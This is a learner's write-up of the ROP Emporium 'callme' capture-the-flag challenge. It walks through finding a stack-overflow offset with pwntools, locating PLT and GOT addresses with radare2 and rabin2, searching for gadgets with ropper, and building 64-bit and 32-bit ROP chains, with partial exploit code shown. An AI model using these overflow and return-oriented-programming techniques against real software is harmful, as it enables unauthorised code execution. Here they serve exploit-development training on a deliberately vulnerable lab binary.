


# Challenge 02: callme

Having worked through the first two challenges with some help, I decided that 
this one was going to be "all on my own". I needed to convince myself that I 
understood what was going on and how to solve it. While by no means perfect, I 
accomplished that objective and I am pretty stoked that, with the exception of a 
typo, the exploit worked on the first try. Here's what I did:

I started out by reading the instructions and tried to force myself to slow down 
and understand them, looking for any issues that they may be hinting at between 
the lines. 

I started my exploit script via pwntools:

```bash
pwn tempalate callme > exploit_02.py
```

I then ran through a few of my now normal steps with a new binary... I ran 
`checksec callme` and `rabin2 -I callme` to get a feel for the program. I also 
loaded it up in ghidra to poke around. It took almost no time to find that the 
`pwnme()` function had a similar vulnerability as the prior challenge but I 
noticed that, this time, the call to `fgets()` read in 256 characters... this 
gave me a hint that the solution was not going to necessarily be short.

## Confirming Overflow Parameters

I followed a process nearly idendtical to the prior challenge to confirm the 
overflow and establish the offset parameters. Identically to the prior, the 
offset is `40`. This step is accomplished via the following:

```python
# start the process
io = process(exe.path)
                                                                                 
# send the cyclic
io.sendline(cyclic(256))

# wait for the crash
io.wait()

# read the corefile
core = io.corefile

# read the stack pointer at the time of the crash
stack = core.rsp
info("stack: %#x", stack)

# read 4 bytes from the stack pointer: this is our offset
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("pattern: %r", pattern)
info("offset:  %d", offset)
```

## Locating the Functions of Interest

Based on the instructions, I knew that I needed to find the addresses for 
`callme_one()`, `callme_two()` and `callme_three()`. Based on the instructions, 
I understood that this may not be quite as straight-forward as it might seem, so 
I was looking for a trick of some sort. I wasn't smart enough to *completely* 
read the instructions, so I didn't even consider using `rabin2`. I ended up 
using two different tools. The first was `r2`. I've included the steps I 
followed below:

```bash
$ r2 callme

# analyze all
[0x004018a0]> aa

# show sections
[0x004018a0]> iS

# show functions
[0x004018a0]> afl

...
0x00401810    1 6            sym.imp.callme_three
0x00401870    1 6            sym.imp.callme_two
0x00401850    1 6            sym.imp.callme_one
...

# show imports
[0x004018a0]> ii
```

In both of the last two commands, I found all three functions and the `vaddr` 
for each matched between the two, so I assumed that they were wat I was looking
for.

I also spent some time in ghidra attempting to confirm the addresses (I did).  
This was followed by some googling/reading online about the global offset table 
and the procedure linkage table.

After I solved it (while working on this writeup), I noticed the warning in the 
instructions and thought I'd try those commands to see what the difference was.


### List Imports

```bash
$ rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
4   0x00401810 GLOBAL FUNC       callme_three
8   0x00401850 GLOBAL FUNC       callme_one
11  0x00401870 GLOBAL FUNC       callme_two
```

### List Relocations

```bash
$ rabin2 -R callme
[Relocations]

vaddr      paddr      type   name
―――――――――――――――――――――――――――――――――
0x00602028 0x00002028 SET_64 callme_three
0x00602048 0x00002048 SET_64 callme_one
0x00602058 0x00002058 SET_64 callme_two
```

At first, I looked at this and was trying to understand what the point was but 
then an idea hit me and I did some checking. From within ghidra, I looked at the 
`.got.plt` section of `callme` (under __Program Trees__) and I saw the 
following:



From the `got`, it becaume obvious that *Relocations* view was showing the 
`vaddr` from the `got`. 

> NOTE: I'm still unclear as to why the author of the challenge stressed this 
> and need to dig further into it.


### Brute Force Approach (list symbols)

There is probably somthing not right about this approach, but it also worked 
pretty easily:

```bash
$ rabin2 -s callme | grep callme_
4    0x00001810 0x00401810 GLOBAL FUNC   16       imp.callme_three
8    0x00001850 0x00401850 GLOBAL FUNC   16       imp.callme_one
11   0x00001870 0x00401870 GLOBAL FUNC   16       imp.callme_two
```

## Finding ROP Gadgets

Based on what we know about the x64 calling convention combined with the 
instructions provided for the challenge, we know that we need to place the value 
`1` in the `rdi` register, `2` in `rsi` and `3` in `rdx`. Using `ropper`, I was 
quickly able to find a gadget for `pop rdi, ret`

```bash
$ ropper --file callme --search "pop rdi; ret"
0x0000000000401b23: pop rdi; ret;
```

Unfortunately, while I was able to also find one for `rdx`, I could not find an 
entry for `rsi`. This pushed me to read the docs on `ropper` a bit more and, 
after doing that, I tried a less-specific search:

```bash
$ ropper --file callme --search "pop rsi"
0x0000000000401b21: pop rsi; pop r15; ret;
0x0000000000401ab1: pop rsi; pop rdx; ret;
```

While the first one was OK, the second was extremely helpful as I could take 
care of both the second and third parameters at once.


## Building the ROP Chain

Having obtained the information we needed, I now just need to build up the rop 
chain. The process is strait-forward and looks like this:

```python
# set up our constants
call_one = 0x401850
call_two = 0x401870
call_three = 0x401810
pop_rdi = 0x401b23
pop_rsi_pop_rdx = 0x401ab1

# start by calling callme_one()
rop_chain = p64(pop_rdi, endian="little")
rop_chain += p64(0x1, endian="little")
rop_chain += p64(pop_rsi_pop_rdx, endian="little")
rop_chain += p64(0x2, endian="little")
rop_chain += p64(0x3, endian="little")
rop_chain += p64(call_one, endian="little")

# similar process repeats for callme_two() and callme_three()
```


## Solution

Having put everything together, I ran the script with the following results:



The solution is available in [exploit_02.py](https://github.com/argodev/study/blob/main/src/ropemporium/exploit_02.py)


## 32 Bit Version

So, I assumed the 32 bit version would be *easy*... a simple variant of the 64 
bit version with a few minor modifications. How incredibly wrong I was. It 
kicked my tail... hard. That said, I now understand how the stack works *much* 
better and anticipate the subsequent 32-bit challenges to be less of a hill to 
climb.

The initial portion of the process is exactly as you would expect (determining 
the offset, etc.). Where things differed for me was in building the ROP chain.  
We know that 32-bit calling convention uses stack-based parameter passing (vs.  
the registers that 64 bit uses). We also know that the parameters should be 
pushed on the stack in reverse order (right-to-left). This means that it should 
look something like the following:

> NOTE: this is *not* correct... keep reading

| ptr callme one |
|---------------|
| 1 |
| 2 |
| 3 |
| ptr callme two |
| 1 |
| 2 |
| 3 |
| ptr callme three |
| 1 |
| 2 |
| 3 |

However, this didn't work. I kept getting an error that indicating that I was 
passing the parameters in incorrectly. I "solved" this (read: without 
understanding) by adding an "dummy" parameter in between the function pointer 
and the first parameter. This "worked" for the call to `callme_one()` but every 
subsequent call failed with a segfault. Those of you who understand the stack 
better than I did at this point understand exactly what I did wrong. It became 
obvious to me that I didn't understand exactly what was going on, so I spent the 
majority of an afternoon fighting for understanding (read: stepping 
assembly-instruction-by-assembly-instruction through GDB, drawing out the stack, 
etc.). Having done this, I now understand... well... *better*. 

The key is, that the magical buffer space between the function pointer and the 
first parameter should be the ptr to the function called upon return. This 
leaves you with the question of what that should be? The answer comes from two 
places. First, in watching the behavior of the stack as other functions are 
called as well as a sideways hint in the online documentation regarding how the 
32 bit calling conventions work. The key phrase here is "caller cleanup" within 
`cdecl`. This means that the caller is responsible for adjusting the stack after 
a function call to make it ready for the  next function call. If you step 
through a handful of function calls within GDB you will obvserve this...  
following a return you will see a `add esp, 0x10` or `add esp, 0xc` or similar.  
In this case, we had three 4-byte slots on the stack, so we needed to move the 
stack pointers "up" by 12 (`0xc`) spots (effectively three "pop" commands). 

Here, I set out to find a ROP gadget to meet my needs... hopefully something 
like `add esp, 0xc; ret;`. I didn't find that, but I did find a `add esp, 8; pop 
ebx; ret;` gadget at `0x8048576`. This *effectively* does the same thing I 
needed. I plugged it in to my ROP chain and I was immdiately successful. After 
returning from each call, I clean up and the `ret` at the end sets me up for the 
next function call (from the now top of the stack). 

The 32-bit solution is availalble in [exploit_0232.py](https://github.com/argodev/study/blob/main/src/ropemporium/exploit_0232.py).


## What Did I Learn?

The 64-bit version of this went rather quickly for me and, coming on the heels 
of 01 challenge, was an incredible encouragement... it convinced me I actually 
*did* understand the core concepts. That was great.

The 32-bit version convinced me I knew nothing. Actually, not entirely, but it 
forced me to really strengthen my understanding of the 32-bit calling 
conventions.

Specific learnings:

* I can ROP
* 32-bit calling conventions and stack use
* Greatly increased comfort in stepping through/debugging assembly with GDB

